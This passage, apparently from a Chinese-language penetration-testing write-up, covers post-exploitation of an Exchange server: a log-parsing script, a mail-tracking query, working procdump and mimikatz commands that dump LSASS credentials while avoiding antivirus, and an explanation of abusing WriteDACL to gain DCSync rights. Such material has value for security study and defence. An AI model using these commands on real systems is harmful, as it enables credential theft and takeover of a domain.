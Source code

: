 ```php
        reader = csv.DictReader(csvfile)

        for row in reader:
            date_time = row["date-time"]
            original_server_ip = row["original-server-ip"]
            original_client_ip = row["original-client-ip"]
            from_email = row["sender-address"]
            to_email = row['recipient-address'].replace(';', "   ")
            subject = row['message-subject']
            if date_time !='' and  original_server_ip != '' and original_client_ip != "" and from_email != "" and to_email != "" and subject != "":
                msg = f'[{date_time}]:[ {from_email} ][ip:{original_client_ip}] -> [ {to_email} ][ip:{original_server_ip}] [ {subject} ]\n'
                wf = open(f'{path}\\testout.txt', "a+", encoding='utf-8')
                wf.write(msg)

if __name__ == '__main__':
    path = sys.argv[1]
    analysis(path=path)
```

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689500984745-5ed1fd8d-de29-4241-ae3a-d302902476b4.png)

使用exchange中的exshell.ps1文件也可以获取某个账户的发件信息进行分析

> powershell.exe -psconsolefile "C:\\Program Files\\Microsoft\\Exchange Server\\V15\\bin\\exshell.psc1" -command "Get-MessageTrackingLog -EventID send -Sender "administrator@vvvv1.com""

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689500225434-9644ceca-307e-4623-84e6-abfc6b1ca769.png)

#### 导出本地hash

获取到webshell权限后，查看权限是否需要提权等操作

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689504222606-d1f021ed-7ee1-4142-899e-c4d7eb22fbc4.png)

上传微软的工具导出lsass进程中的hash防止被查杀。

> procdump64.exe -accepteula -ma lsass.exe lsass.dmp

导出生成的lsass.dmp文件，copy进入本地使用mimikatz进行分析。

> mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689504754023-9fde18d6-960c-4b02-a295-250005fa9137.png)

抓取到exchange的机器用户的hash。

exchange机器位于Exchange Trusted Subsystem，而Exchange Trusted Subsystem又属于Exchange Windows Permission组，这个组具有WriteDACL权限，且可以继承，因此exchange机器对于域对象具有WriteDACL权限，我们只需要知道一个普通域用户的密码或者hash，即可赋予其dcsync的权限，导出域内hash。

#### 搭建webshell代理
